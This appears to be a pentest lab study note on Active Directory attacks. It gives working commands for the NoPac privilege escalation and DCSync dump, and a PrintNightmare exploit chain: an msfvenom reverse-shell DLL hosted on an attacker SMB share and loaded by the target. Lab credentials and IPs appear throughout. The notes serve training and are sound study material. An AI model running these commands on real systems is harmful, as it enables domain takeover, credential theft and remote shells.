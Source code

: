 
## **NoPac Attack Summary (CVE-2021-42278 + CVE-2021-42287)** [Tool](https://github.com/Ridter/noPac)

The NoPac attack abuses vulnerabilities in Active Directory where an attacker with low privileges can rename a computer account’s `sAMAccountName` to impersonate a domain admin, then request a Kerberos ticket that the Domain Controller mistakenly issues with elevated privileges. This results in full domain compromise without needing existing admin rights.


### ✅ **Requirements**

- Unpatched **Domain Controller** (Windows Server 2016/2019) for **both CVEs**
- Attacker has **low-privileged domain user** credentials
- Domain allows creation or control of **computer accounts** (default: up to 10)
- **Kerberos authentication** is used (default in AD)

---

### 🧭 **Attack Steps** [Article](https://www.secureworks.com/blog/nopac-a-tale-of-two-vulnerabilities-that-could-end-in-ransomware)

1. Attacker creates or compromises a computer account (e.g., `TESTCOMP$`)
2. Modifies the computer account’s `sAMAccountName` to `Administrator` (or another DA)
3. Requests a **TGT** from the KDC for the renamed machine account
4. Due to the vulnerability, the KDC issues a **TGT for the real domain admin account**
5. Attacker uses this TGT to **impersonate a domain admin**, achieving **full domain access**

```shell
[[sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap]]
# Check if target is vulnerable

sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
# Impersonate admin

# DCSYNC ATTACK
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
# DCSYNC ATTACK

```


## PrintNightmare:
==->== Depending on what exploit you use the version of impacket may need to be changed ==<-==
1. 
![[Pasted image 20250620151700.png]]
^^ see if `Print System Asynchronous Protocol` and `Print System Remote Protocol` are exposed on the target.

2. 
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
# Create an msfvenom payload


sudo smbserver.py -smb2support CompData /path/to/backupscript.dll
# Host a payload on an smb share

```

3. Setup a reverse shell listener with Metasploit
![[Pasted image 20250620152044.png]]

4. Run the payload
```shell
sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'

# What this is doing:
1. Run the CVE against the target (172.16.5.5)
2. Grab the .dll hosted on our machine
3. run that .dll and
4. Get a shell from our listener on MSF

```

## PetitPotam ([CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942))
